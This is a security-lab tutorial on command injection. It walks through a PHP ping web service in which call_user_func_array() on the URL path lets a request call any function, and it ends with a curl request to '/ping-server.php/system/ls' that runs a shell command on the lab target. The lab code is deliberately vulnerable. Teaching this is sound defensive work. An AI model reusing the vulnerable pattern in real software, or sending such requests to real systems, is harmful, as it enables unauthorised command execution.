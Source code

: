 # Command Injection

Command injections are among the most critical vulnerabilities in web services. They allow system command execution directly on the back-end server. If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own.

Let us assess together a web service that is vulnerable to command injection.

You may have come across connectivity-checking web services in router admin panels or even websites that merely execute a ping command towards a website of your choosing.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target service and follow along.

Suppose we are assessing such a connectivity-checking service residing in `http://<TARGET IP>:3003/ping-server.php/ping`. Suppose we have also been provided with the source code of the service.

**Note**: The web service we are about to assess does not follow the web service architectural designs/approaches we covered. It is quite close to a normal web service, though, as it provides its functionality in a programmatic way, and different clients can use it for connectivity-checking purposes.

```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url_ip);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

* A function called _ping_ is defined, which takes two arguments _host\_url\_ip_ and _packets_. The request should look similar to the following. `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3`. To check that the web service is sending ping requests, execute the below in your attacking machine and then issue the request.
  *   &#x20;&#x20;

      ```shell-session
      al1abb@htb[/htb]$ sudo tcpdump -i tun0 icmp
       tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
       listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
       11:10:22.521853 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 1, length 64
       11:10:22.521885 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 1, length 64
       11:10:23.522744 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 2, length 64
       11:10:23.522781 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 2, length 64
       11:10:24.523726 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 3, length 64
       11:10:24.523758 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 3, length 64
      ```
* The code also checks if the _packets_'s value is more than 4, and it does that via an array. So if we issue a request such as `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3333`, we're going to get an _Only 1-4 packets!_ error.
* A variable called _cmd_ is then created, which forms the ping command to be executed. Two values are "parsed", _packets_ and _host\_url_. [escapeshellarg()](https://www.php.net/manual/en/function.escapeshellarg.php) is used to escape the _host\_url_'s value. According to PHP's function reference, _escapeshellarg() adds single quotes around a string and quotes/escapes any existing single quotes allowing you to pass a string directly to a shell function and having it be treated as a single safe argument. This function should be used to escape individual arguments to shell functions coming from user input. The shell functions include exec(), system() shell\_exec() and the backtick operator._ If the _host\_url_'s value was not escaped, the below could happen.

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

* The command specified by the _cmd_ parameter is executed with the help of the _shell\_exec()_ PHP function.
* If the request method is GET, an existing function can be called with the help of [call\_user\_func\_array()](https://www.php.net/manual/en/function.call-user-func-array.php). The _call\_user\_func\_array()_ function is a special way to call an existing PHP function. It takes a function to call as its first parameter, then takes an array of parameters as its second parameter. This means that instead of `http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3` an attacker could issue a request as follows. `http://<TARGET IP>:3003/ping-server.php/system/ls`. This constitutes a command injection vulnerability!

You can test the command injection vulnerability as follows.

```shell-session
$ curl http://<TARGET IP>:3003/ping-server.php/system/ls
index.php
ping-server.php
```
